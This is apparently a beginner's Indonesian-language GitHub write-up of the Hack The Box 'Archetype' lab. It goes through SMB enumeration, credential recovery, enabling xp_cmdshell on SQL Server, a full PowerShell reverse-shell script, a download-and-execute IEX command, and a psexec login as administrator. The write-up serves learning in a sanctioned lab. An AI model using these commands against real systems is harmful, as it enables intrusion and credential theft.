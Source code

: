 Kali ini kita akan mencoba mengerjakan soal CTF dari website Hack The Box.Soal yang kita kerjakan berjudul Archetype. Sebenarnya ini udah lama pernah dikerjain tapi kutulis cuma buat pribadi aja. jadi sekarang kutulis aja di github. Oke langsung kita kerjakan.

1. Pertama-tama mari kita sambungkan vpn kita dengan server dari Hacktebox menggunakan openvpn.

![Gambar-1](images/gambar1.png)

2. Pastikan kita sudah terkoneksi dengan server 

![Gambar-2](images/gambar2.png)

3. Kita akan mencoba starting point Archetype jika di klik walkthrough maka kita akan dipandu dalam pengerjaannya. Saya juga hanya mengikuti walkthrough, saya pemula hehehe dan saya buat ini supaya saya bisa baca dan belajar ulang soalnya saya pikun. Disini sebenarnya saya sudah mengerjakannya.

![Gambar-3](images/gambar3.png)

4. Pertama-tama kita akan diarahkan untuk men-scan menggunakan nmap untuk melihat port yang terbuka. 
Gunakan perintah: `nmap -sC -sV  10.10.10.27`

![Gambar-4](images/gambar4.png)

Bisa kita lihat ada port 135, 139, 445, 1433 yang terbuka. Oh iya saya lupa bilang kalau server yang kita serang memakai sistem operasi windows. Dan kita akan melakukan serangan terlebih dulu ke port 445 dan 1433 yaitu SAMBA server dan SQL server.

5. Kita akan coba lihat SAMBA-nya duluan dengan perintah `smbclient -N -L \\\\10.10.10.27\\`

- N: Memasukkan nilai null pada password

- L: menampilkan list file 

![Gambar-5](images/gambar5.png)

Jika kita perhatikan ada sharefolder dengan nama backups. Mari kita masuk kedalam dan melihat apa aja isinya.

6. Gunakan perintah berikut: `smbclient -N \\\\10.10.10.27\\backups` 

![Gambar-6](images/gambar6.png)

Jika kita lihat isinya ada sebuah file dengan nama prod .dtsConfig . Mari kita download dan lihat isinya.

![Gambar-7](images/gambar7.png)

7. Jika kita perhatikan ada iformasi password dan juga user dari SQL server.
8. Selanjutnya kita akan coba meremote dari SQL server menggunakan tools yag ada di link berikut: https://github.com/SecureAuthCorp/impacket
9. Gunakan perintah berikut untuk mengakses SQL dengan memakai user dan password yg kita dapatkan tadi `python3 mssqlclient.py ARCHETYPE/sql_svc10.10.10.27 -windows-auth`
    
![Gambar-8](images/gambar8.png)

10. Dan kita bisa menggunakan fungsi `IS_SRVROLEMEMBER` untuk mendapatkan posisi sebagai sysadmin.
11. Dengan begitu kita dapat mengaktifkan xp_cmdshell menngunakan perintah dibawah ini satu persatu:
    
`EXEC sp_configure 'Show Advanced Options', 1;`

`reconfigure;`

`sp_configure;`

`EXEC sp_configure 'xp_cmdshell', 1`

`reconfigure;`

`xp_cmdshell "whoami"`

![Gambar-9](images/gambar9.png)

12. Jika kita perhatkan saat kita menggunakan perintah `whoami` ternyata user `archetype\sql_svc` tidak memiliki posisi sebagai administrator dari perangkat. 
13. Mari kita pindah ke window baru dan kita buat sebuah file PowerShell reverse degan nama shell.ps1 . Isinya sebagai berikut:
    
```
$client = New-Object System.Net.Sockets.TCPClient("10.10.14.3",443);$stream = $client.GetStream();[byte[]]$bytes = 0..65535|%{0};while(($i = $stream.Read($bytes, 0, $bytes.Length)) -ne 0){;$data = (New-Object -TypeName System.Text.ASCIIEncoding).GetString($bytes,0, $i);$sendback = (iex $data 2>&1 | Out-String );$sendback2 = $sendback + "# ";$sendbyte = ([text.encoding]::ASCII).GetBytes($sendback2);$stream.Write($sendbyte,0,$sendbyte.Length);$stream.Flush()};$client.Close()
```

14. Mari kita buat sebuah mini webserver menggunakan python. Ketikkan perintah dibawah ini.

`sudo python3 -m http.server 80`

15. Kita buat netcat untuk men-listen pada port 443 dan kita. gunakan ufw untuk membuat call-back pada port 80 dan 443.

`sudo nc -lvnp 443`

`sudo ufw allow from 10.10.10.27 proto tcp to any port 80,443`

16. Lalu pada window saat kita meremote SQL menggunakan perintah dibawah ini

```
xp_cmdshell "powershell "IEX (New-Object Net.WebClient).DownloadString(\"http://IP anda yang terkoneksi dengan server HTB/shell.ps1\");"
```

![Gambar-10](images/gambar10.png)

17. Setelah itu ketikkan perintah dibawah ini
`type C:\Users\sql_svc\AppData\Roaming\Microsoft\Windows\PowerShell\PSReadline\ConsoleHost_history.txt`

![Gambar-11](images/gambar11.png)

18. Bisa kita lihat kita mendapatkan akun seorang administrator dan password-nya. Mari kita remote menggunakan tools yg ada di impacket yang sudah kita download tadi(link ada diatas)

`python3 psexec.py administrator@10.10.10.27`

![Gambar-12](images/gambar12.png)

wahh akun tadi ternyata administrator hahaha maafkan typo di terminalnya ya.

19. Kita bisa cari cari flag di folder Users, Administraror, Desktop dan pada file root.txt . Ketikkan type root.txt unuk mendapatkan flag.

![Gambar-13](images/gambar13.png)